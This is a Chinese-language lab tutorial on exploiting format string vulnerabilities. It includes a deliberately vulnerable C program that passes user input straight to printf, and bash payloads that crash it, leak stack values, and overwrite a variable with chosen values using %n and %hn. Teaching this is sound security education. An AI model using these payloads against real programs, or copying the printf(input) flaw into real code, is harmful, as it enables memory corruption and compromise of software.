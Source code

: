 # 攻击格式化字符串漏洞

漏洞程序：
```c
#include <stdio.h>

void fmtstr()
{
    char input[100];
    int var = 0x11223344;
    
    printf("Target address: %x\n", (unsigned) &var);
    printf("Data at target address: 0x%x\n", var);
    
    printf("Please enter a string: ");
    fgets(input, sizeof(input)-1, stdin);
    printf(input);
    printf("Data at target address: 0x%x\n", var);
}

void main()
{
    fmtstr();
}
```

## 攻击一：使程序崩溃

![输入格式化字符崩溃](../img/format-attack1.png)

!!! printf函数原理

    解析格式化字符串，当遇到一个%s，便从va_list指向的位置获取一个值，并移动va_list到下一个位置。
    由于格式规定符是%s，printf()函数把获取到的值视为一个地址，并打印该地址处的字符串

![漏洞程序栈](../img/format-stack.png)
漏洞程序栈如图，输入%s多了，就会使printf函数的va_list指针移动到printf函数栈帧之上的位置。

正常程序的栈帧如下图：  
![程序的栈帧](../img/returntolibc-normal.png)

## 攻击二：输出栈中的数据

比如要打印var的值，printf函数遇到%x时，打印出va_list指针指向的数，并将va_list推进4个字节
![打印栈数据](../img/format-attack2.png)
可知第五个输出是var的值

## 攻击三：修改内存中的程序数据

!!! printf函数中输入格式规定符

    printf函数的所有格式规定符都输出数据，唯有一个例外，就是%n，会打印目前已打印出的字符的
    个数写入内存。  
    printf("hello%n", &i)会打印hello，同时把5保存到变量i

由于目标地址是0xbffff694，构造如下命令，把输入保存在文件中
```bash
echo $(printf "\x94\xf6\xff\xbf").%x.%x.%x.%x.%x.%n > input
```

!!! warning

    为啥不能直接输入这个二进制数，而用文件输入的方式

!!! Bash命令

    $(command)的目的在于进行指令替换，用指令的结果来代替指令本身。数字之前放\x表示把94视为
    一个数字，由于是小端序，低字节放在低地址。
    
把目标地址放在栈中之后，接下来要做的就是把va_list指针移动到这个数值所在的地址，然后使用%n。
这样问题就在于需要多少个%x格式规定符，可以用试错法得知需要5个。
![修改内存数据](../img/format-attack3.png)
可见值被修改成0x1e

## 攻击四：修改程序数据为指定值

比如把var的值修改为0x66887799，如果用%n方法，需要printf函数输出0x66887799个字符（超过17亿），
通过调整精度和宽度可以达到这个目的。

!!! 精度和宽度

    精度：printf("%.5d", 10), 最少打印5位，不够前面补0，这个结果是00010  
    宽度：printf("%5d", 10)，整数位数最少5位，不够补空格，这个结果是三个空格加10

可以通过试错方法达到目的，比如
```bash
echo $(printf "\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.10000000x%n > input
./vul < input
```
大概7秒打印出如下结果：
![修改数据为指定值](../img/format-attack4.png)
为了实现目标值，需要去凑，大概需要打印一个小时

## 攻击四续： 更快的方法

!!! 格式符长度修饰符

    %n: 视参数为4字节整型数  
    %hn: 视参数为2字节短整型数  
    %hhn: 视参数为1字节字符型数  
    
```c
#include <stdio.h>

void main()
{
    int a, b, c;
    a = b = c = 0x11223344;
    
    printf("12345%n\n", &a);
    printf("The value of a: 0x%x\n", a);
    printf("12345%hn\n", &b);
    printf("The value of b: 0x%x\n", b);
    printf("12345%hhn\n", &c);
    printf("The value of c: 0x%x\n", c);
}
```

![修饰符区别](../img/format-attack4plus.png)

下面把var值修改成0x66887799，把var变量分为两个部分，每个部分两个字节，低端两字节地址是0xbffff694，
需要改成0x7799；高端两字节地址是0xbffff696，需要被改成0x6688。用%hn格式规定符来修改这两处内存

构建字符串：
```bash
echo $(printf "\x96\xf6\xff\xbf@@@@\x94\xf6\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
./vul < input
```
![修改指定数值](../img/format-attack42.png)

@@@@用来分隔两个地址  
精度修饰符设置为%.8x，使每个整型数被打印为8位数，加上之前打印的12个字符，printf函数已经打印了12 + 4*8 = 44个
字符，为了达到0x6688，就是十进制数26248，就是还差26204个字符。  
完成第一个地址内存修改后，如果立即使用%hn修改第二个地址内存，相同的值会被写入第二个地址，因此需要更多字符以增加到
0x7799，这就是为什么要在两个地址之间放入4个字节（@@@@）精度4369 = 0x7799 - 0x6688